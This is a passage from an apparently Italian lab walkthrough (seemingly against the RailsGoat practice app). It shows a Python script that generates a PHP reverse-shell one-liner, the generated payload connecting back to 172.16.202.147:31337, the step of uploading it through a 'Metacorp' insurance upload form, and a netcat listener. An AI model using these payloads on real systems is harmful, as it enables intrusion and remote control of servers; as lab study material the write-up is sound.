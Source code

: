 {%highlight python%}
#!/usr/bin/env python

import sys, getopt

def main(argv):
    host = ''
    port = ''

    try:
        opts, args=getopt.getopt(argv, "hH:P:", ["help","host=", "port="])
    except getopt.GetoptError:
        print sys.argv[0] + ' -H <host> -P <port>'
        sys.exit(-2)
    
    for opt, arg in opts:
        if opt in ('-h', '--help'):
            print sys.argv[0]+ ' - create reverse shell oneliner'
            print sys.argv[0]+ ' -H <host> -P <port> '
            sys.exit(1)
        if opt in ('-H', '--host'):
            host = arg
        if opt in ('-P', '--port'):
            port = arg

    if host == '' or port == '':
        print sys.argv[0] + ' -H <host> -P <port>'
        sys.exit(-1)
    print "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+host+"/"+port+" 0>&1'\");"
    return 0
 
    
if __name__ == "__main__":
    main(sys.argv[1:])

{%endhighlight%}

Eseguendo questo script, mi genero il codice PHP per eseguire bash e creare una
reverse shell. Scelgo PHP, perché, tra le mille informazioni, ho visto che
Apache ha il modulo per questo linguaggio in esecuzione, quindi,
presumibilmente, eseguirà questo script.

{%highlight php%}
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.202.147/31337 0>&1'");
{%endhighlight%}

![oneliner]({{site.url}}/assets/images/getting-root/railsgoat/create_oneliner.png)

Dalla form di upload della polizza sanitaria della Metacorp, scelgo il file PHP
che ho appena generato e metto netcat in ascolto sulla porta 31337 con il
comando:

{%highlight sh%}
# nc -lvnp 31337
{%endhighlight%}
